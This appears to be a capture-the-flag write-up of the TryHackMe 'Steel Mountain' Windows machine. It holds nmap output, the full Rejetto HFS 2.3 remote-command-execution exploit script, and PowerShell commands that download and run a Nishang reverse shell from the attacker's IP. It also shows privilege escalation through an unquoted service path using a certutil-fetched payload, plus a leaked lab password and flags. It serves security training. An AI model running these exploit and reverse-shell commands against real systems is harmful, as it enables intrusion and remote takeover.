







#tryhackme #nmap #windows #hfs #searchsploit #nishang #powerup #powershell #unquoted-service-path #winpeas #PrivescCheck 

## Recon
---
### CME

> neither Null nor guest login is available

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ cme smb 10.10.92.230
SMB         10.10.92.230    445    STEELMOUNTAIN    [*] Windows Server 2012 R2 Datacenter 9600 x64 (name:STEELMOUNTAIN) (domain:steelmountain) (signing:False) (SMBv1:True)
```

### Nmap

```bash
# Nmap 7.94 scan initiated Thu Jun 15 08:11:23 2023 as: nmap -sVC -p- -T4 -vv -oA steel-mountain 10.10.92.230
Increasing send delay for 10.10.92.230 from 0 to 5 due to 1289 out of 3222 dropped probes since last increase.
Increasing send delay for 10.10.92.230 from 5 to 10 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.92.230
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2023-06-15 08:11:24 EDT for 1131s
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info:
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2023-06-15T12:30:37+00:00
|_ssl-date: 2023-06-15T12:30:43+00:00; +28s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-06-14T12:08:43
| Not valid after:  2023-12-14T12:08:43
| MD5:   85f4:2523:8519:9bcb:b003:acef:ee2c:70a7
| SHA-1: da9e:65de:bf50:43b5:6764:47ae:6443:cb45:6bfe:3d5f
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQEbglJYnMF5BMC5zo1aqV3TANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTIzMDYxNDEyMDg0M1oXDTIzMTIx
| NDEyMDg0M1owGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAL7g0to6oYsq+2Th2Sgf4FpJYwObu/sNUjA8XZy2
| Yc/RHvJpzhTPv3U6rvcnFPZpVIU1GBNwLS+rrqyzTspFMvlWmd0Bn6yLma2hNPdD
| GfUAUl4n3iShYCtzduHutkH/4M+svdAMkAqol4FcmRviKHLDeCOakRhhViIZZjgx
| 5Rp55sY60mqijjYpqfwL90slbVqlH70gGlATgjbB9BmxB/enJ56hbcEOmB3177tL
| Htdy43mf6FB7yyvngiOH6wC1LuSGAtIx9cpZ4rqUOrNONnET9tBSb/zwCx/x62wd
| CZ0yJvKU57IVG9MdsSO8sSeyfHjniE2qRwgP25/q624FBHcCAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQCjZw56PVkiVjSL+wYvTlJ0qyL+qI8lfK4cBhS/Yaa7IMtYhJWxOxARaiS8DpoV
| fGcztEXiQ3BRn87ehxKF3TAwXg5XsqSmtOX/Uv22ATpdVcJvEbVpSlk+fawk2gRP
| R0ZmVWw0cM5RKCB/tJT8uveatan6ozaYfA88da3rOqDQydv79nP+fliLvyQ8qrYy
| ipkZXvkVE/djs5hJIZpBxNEyfBKMCUBaDnKFhuFV6tUsy8CBY6aoxVPuHdZmoK+q
| NDrBfn01Zvf9lmgwGcBpRFUlDNfa0uLr+qShr88eTVIcYOELr1z09uz6KTjN156U
| a2uKCkPpnacVurqI7Q0kd6KI
|_-----END CERTIFICATE-----
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-title: HFS /
|_http-server-header: HFS 2.3
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49169/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49170/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 28s, deviation: 0s, median: 27s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:73:02:05:c0:17 (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02:73:02:05:c0:17:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode:
|   3:0:2:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-06-15T12:30:37
|_  start_date: 2023-06-15T12:08:35
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28780/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 21409/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 31453/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33308/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 15 08:30:16 2023 -- 1 IP address (1 host up) scanned in 1132.74 seconds
```

## Introduction
---

### Questions

#### Who is the employee of the month?

Home page



Click on the image and open in new tab




> BillHarper


## Initial Access
---

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ searchsploit HttpFileServer 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                                    | windows/webapps/49125.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ searchsploit -m 49125
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
    Codes: CVE-2014-6287
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/kali/thm/steel-mountain/49125.py
```

> 49152.py

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)                                                                            
```

- `{{}}` is to escaped curly brackets 

I can send a request to verify the exploit:

```css
http://10.10.92.230:8080/?search=%00{.+exec|C:\Windows\System32\cmd.exe+/c+ping+10.11.19.145+-n+1.}
```

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:38:25.695038 IP 10.10.92.230 > kali: ICMP echo request, id 1, seq 1, length 40
08:38:25.695064 IP kali > 10.10.92.230: ICMP echo reply, id 1, seq 1, length 40
```

> Make sure to provide full path to `cmd.exe`!

### RCE

> Conpty is not working on this old machine, use Nishang instead

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ mkdir www

┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ cd www

┌──(kali㉿kali)-[~/thm/steel-mountain/www]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .

┌──(kali㉿kali)-[~/thm/steel-mountain/www]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.145 -Port 1111' >> Invoke-PowerShellTcp.ps1

┌──(kali㉿kali)-[~/thm/steel-mountain/www]
└─$ python3 -m http.server 80
```


```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ python3 49125.py 10.10.37.181 8080 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -exec bypass -C iex(new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-PowerShellTcp.ps1')"
http://10.10.37.181:8080/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20-exec%20bypass%20-C%20iex%28new-object%20net.webclient%29.downloadstring%28%27http%3A//10.11.19.145/Invoke-PowerShellTcp.ps1%27%29.}
```

> [!NOTE] Make Sure to use x64 version of PowerShell for common tools to work!
> Refer - https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#the-importance-of-architecture

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.37.181] 53523
Windows PowerShell running as user bill on STEELMOUNTAIN
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> whoami
steelmountain\bill

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> type C:\Users\bill\Desktop\user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```

## Privilege Escalation
---

### Tools

#### PowerUp

> [!NOTE] PowerShell Compatibility
> PowerUp will work on almost every old Windows Machines!

```bash
iex(new-object net.webclient).downloadstring("http://10.11.19.145/PowerUp.ps1"); Invoke-AllChecks
```

Unquoted Service Paths

```bash
PS C:\Programdata> iex(new-object net.webclient).downloadstring("http://10.11.19.145/PowerUp.ps1"); Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced
                 SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path
                 <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
...
```

Modifiable Service Files

```bash
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced
                                  SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced
                                  SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl,
                                  ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name
                                  'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
...
```

Found cleartext password from Autologon

```bash
DefaultDomainName    :
DefaultUserName      : bill
DefaultPassword      : PMBAf5KhZAxVhvqb
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons
```

#### WinPeas

> [!NOTE] **Latest version of WINPEAS(202306+) do not work on old machines**
> Use the winpeas release from  [20220209](https://github.com/carlospolop/PEASS-ng/releases/tag/20220209)to make it work properly

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain/www]
└─$ ln -s /opt/sectools/win/winpeas/2022/winPEASany_ofs.exe
```

```bash
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.11.19.145/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

> To execute from exe directly - [[3. Hackpark#winPeas#Load binary to memory with powershell]]





#### PrivescCheck

> Some checks failed (ex `Unquoted Path`), summary failed

```bash
iex(new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1"); Invoke-PrivescCheck
```





### Abuse Unquoted Service Paths

```bash
PS C:\> sc.exe qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Check write permission

```bash
PS C:\> icacls.exe "C:\Program Files (x86)\IObit"
C:\Program Files (x86)\IObit STEELMOUNTAIN\bill:(OI)(CI)(RX,W)
                             NT SERVICE\TrustedInstaller:(I)(F)
                             NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                             BUILTIN\Administrators:(I)(F)
                             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                             BUILTIN\Users:(I)(RX)
                             BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                             CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                             APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                             APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

> `STEELMOUNTAIN\bill:(OI)(CI)(RX,W)`

#### CPP rev shell

This time I'm playing something other than msfvenom

Embed powershell reverse shell command in a C++ compiled exe

> **This will not evade anti virus**

> **run_cmd.c**

```cpp
#include <stdlib.h>

int main()
{
  system("<REVERSE SHELL COMMAND>");
  return 0;
}
```

Compile the code

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain/www]
└─$ x86_64-w64-mingw32-gcc run_cmd.c -o out.exe
```

#### Exploit

```bash
PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>certutil -urlcache -split -f http://10.11.19.145/out.exe "C:\Program Files (x86)\IObit\Advanced.exe"
****  Online  ****
  000000  ...
  01c74c
CertUtil: -URLCache command completed successfully.
PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> sc.exe stop AdvancedSystemCareService9
[SC] ControlService FAILED 1062:

The service has not been started.

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> sc.exe start AdvancedSystemCareService9
```

```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.37.181] 55182
whoami
nt authority\system
ps> cat C:\Users\Administrator\Desktop\root.txt
9af5f314f57607c00fd09803a587db80
ps>
```

## Access and Escalation Without Metasploit
---

Did not use metapsloit

## ETC
---
### Research on Advanced System Care exploits



```bash
┌──(kali㉿kali)-[~/thm/steel-mountain]
└─$ searchsploit -x 49049

# Title: Advanced System Care Service 13 - 'AdvancedSystemCareService13' Unquoted Service Path
# Author: Jair Amezcua
# Date: 2020-11-10
# Vendor Homepage: https://www.iobit.com
# Software Link: https://www.iobit.com/es/advancedsystemcarepro.php
# Version : 13.0.0.157
# Tested on: Windows 10 64bit(EN)
# CVE : N/A

# 1. Description:
# Unquoted service paths in Advanced System Care Service 13  v13.0.0.157 have an unquoted service path.

# PoC
===========

C:\>sc qc AdvancedSystemCareService13
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: AdvancedSystemCareService13
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Advanced SystemCare Pro\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 0
        DISPLAY_NAME       : Advanced SystemCare Service 13
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem


#Description Exploit:
# A successful attempt would require the local user to be able to insert their code in the system root path
# undetected by the OS or other security applications where it could potentially be executed during
# application startup or reboot. If successful, the local user's code would execute with the elevated
# privileges of the application.
```

### Playing with powershell

```bash
PS C:\Programdata> help get-serv

Name                              Category  Module                    Synopsis
----                              --------  ------                    --------
Get-ServiceControlManagerDacl     Function                            ...
Get-ServiceFromRegistry           Function                            ...
Get-ServiceList                   Function                            ...
Get-ServiceDetail                 Function                            Return...
Get-Service                       Cmdlet    Microsoft.PowerShell.M... ...
```

> `Get-ServiceDetail`  is from PowerUp

List all commands which have no ModuleName

```bash
get-command | Where-Object {$_.ModuleName -EQ ""}
```
